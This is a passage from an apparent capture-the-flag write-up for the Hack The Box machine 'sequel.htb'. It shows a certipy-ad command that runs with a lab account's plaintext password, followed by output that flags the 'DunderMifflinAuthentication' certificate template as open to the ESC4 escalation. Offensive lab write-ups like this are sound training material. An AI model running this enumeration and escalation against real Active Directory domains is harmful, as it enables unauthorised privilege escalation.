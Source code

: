 First, let's see if there are any vulnerable certificate templates that we can target for `ESC4`. 

```bash
certipy-ad find -username ca_svc@sequel.htb -password Password123! -dc-ip 10.10.11.51 -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250503164549_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250503164549_Certipy.txt'
[*] Saved JSON output to '20250503164549_Certipy.json'
```

Looking at the output, we can see that `certipy` identified the `DunderMifflinAuthentication` certificate as vulnerable to `ESC4`. 

```bash
cat 20250503164549_Certipy.txt 
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
```